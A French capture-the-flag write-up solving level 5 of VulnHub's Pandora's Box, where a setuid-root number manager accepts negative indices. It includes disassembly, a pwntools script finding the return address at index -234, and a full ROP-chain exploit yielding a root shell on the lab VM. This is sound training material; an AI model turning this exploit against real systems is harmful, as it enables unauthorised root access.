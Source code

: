 ```yaml
---
title: "Solution du CTF Pandora's Box de VulnHub (level 5)"
tags: [CTF,VulnHub,binary exploitation]
---
```


On touche finalement (presque) à la fin du [CTF Pandora's Box de VulnHub](https://vulnhub.com/entry/pandoras-box-1,111/). Ce level 5 a beau nous donner un accès root il est pourtant le plus simple des exploitations de binaires du CTF.

Le programme qui a donc le bit setuid root permet de stocker des valeurs numériques dans un tableau :

```bash
$ ./level5
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> help
commands:
exit        : Close number manager
set         : Store a number
get         : View a number
> get
> id: 6
value: 0
> set
> id: 6
> value: 31337
Value stored
> get
> id: 6
value: 31337
> get
> id: 5000
The array only has 10 entry's, use id 0..9
> get
> id: -10
value: 0
> set
> id: -10
> value: 5
Value stored
> get
> id: -10
value: 5
```

## Pour l'exploitation, tapez -234

On voit rapidement que les valeurs négatives d'index sont acceptées aussi bien pour la méthode `get` que `set`.

On peut donc aller au délà du tableau dans la stack. Le code fait un simple test pour s'assurer que l'index est plus petit que 10 :

```nasm
0x0804867d      mov     dword [base], 0xa ; int base
0x08048685      mov     dword [endptr], 0 ; char **endptr
0x0804868d      mov     dword [esp], ebx ; const char *str
0x08048690      call    strtoul    ; sym.strtoul ; long strtoul(const char *str, char **endptr, int base)
0x08048695      cmp     eax, 9     ; 9
0x08048698      jle     0x8048748
; --- snip ---
0x08048748      and     eax, 0xff  ; 255
0x0804874d      mov     eax, dword [esp + eax*4 + 0x14]
0x08048751      mov     dword [endptr], str.value:__u ; 0x80ab8af ; const char *format
0x08048759      mov     dword [base], eax
0x0804875d      mov     eax, dword [stderr] ; obj._IO_stderr
                                   ; 0x80cac24
0x08048762      mov     dword [esp], eax ; FILE *stream
0x08048765      call    fprintf    ; sym.fprintf ; int fprintf(FILE *stream, const char *format, void *va_args)
```

J'ai écrit un code pour dialoguer avec le programme et demander un index de -1 jusqu'à -1000 jusqu'à ce que l'on croise l'adresse de retour :

```python
from pwn import *                                                                                                      
                                                                                                                       
p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       

for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        break

p.readuntil(b"> ")
p.sendline(b"exit")
p.close()
```

Le script trouve ainsi notre adresse de retour à l'index `-234` du tableau.

Pour tester l'exploitation je vais simplement réécrire l'adresse de retour par une adresse (`0x080a7e22`) pointant sur une instruction `0xCC` (sigtrap) :

```bash
$ gdb -q ./level5
Reading symbols from ./level5...

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.opensuse.org/ 
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./level5)
(gdb) get
Undefined command: "get".  Try "help".
(gdb) r
Starting program: /tmp/ctf/level5 
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> get
> id: -234
value: 134513006
> set
> id: -234
> value: 134905378
Value stored
> exit
Goodbye

Program received signal SIGTRAP, Trace/breakpoint trap.
0x080a7e23 in uw_init_context_1 ()
```

Ca fonctionne. Le binaire a le bit NX dont on va utiliser la technique du ROP. L'adresse de retour sera écrasée par la première adresse de la ROP-chain (générée via ROPgadget puis customisée). Les autres valeurs sont passées à la suite sur les adresses dans le sens croissant.

## Hammer time

Comme j'ai fait mon code avec `pwntools` et que je ne peux pas l'exécuter directement avec ses dépendances sur la VM du CTF je reprend la méthode des précédents levels pour que le programme vulnérable écoute sur un port :

```bash
socat TCP4-listen:6666,reuseaddr,fork EXEC:./level5
```

Voci mon code d'exploitation :

```python
import struct
from pwn import *                                                                                                      

values = [
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0,
    0,
    0x080a8406,  # pop eax ; ret
    70,          # setreuid syscall
    0x08053f90,  # int 80; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e0,  # @ .data
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"/bin")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e4,  # @ .data + 4
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"//sh")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x08097caf,  # xor eax, eax ; ret
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08048492,  # pop ebx ; ret
    0x080ca7e0,  # @ .data
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080ca7e0,  # padding without overwrite ebx
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080a8406,  # pop eax ; ret
    11,
    0x08048d2d,  # int 0x80
]

# switch lines for local exploitation
# p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       
p = remote("192.168.56.83", 6666)

saved_eip_offset = 0
for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        saved_eip_offset = i
        break

for i, value in enumerate(values):
    p.readuntil(b"> ")
    p.sendline(b"set")
    p.readuntil(b"> id: ")
    p.sendline(str(saved_eip_offset + i).encode())
    p.readuntil(b"> value: ")
    p.sendline(str(value).encode())

p.readuntil(b"> ")
p.sendline(b"exit")
p.interactive()
p.close()

```

Pwn3d !

```bash
$ python exploit_lvl5.py 
[+] Opening connection to 192.168.56.83 on port 6666: Done
Found return value at index -234
[*] Switching to interactive mode
Goodbye
$ id
uid=0(root) gid=1004(level4) groups=0(root),1004(level4)
$ cd /root
$ ls -al
total 32
drwx------  3 root root 4096 Jan  4  2015 .
drwxr-xr-x 22 root root 4096 Jan  3  2015 ..
-rw-------  1 root root  275 Jan  4  2015 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jan  4  2015 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-------  1 root root 1491 Jan  4  2015 .viminfo
-rw-r--r--  1 root root 1314 Jan  4  2015 fl4gz0r.tXt
```

Le flag est en fait un dernier exercice à voir plus tard ;-)

*Publié le 27 décembre 2022*
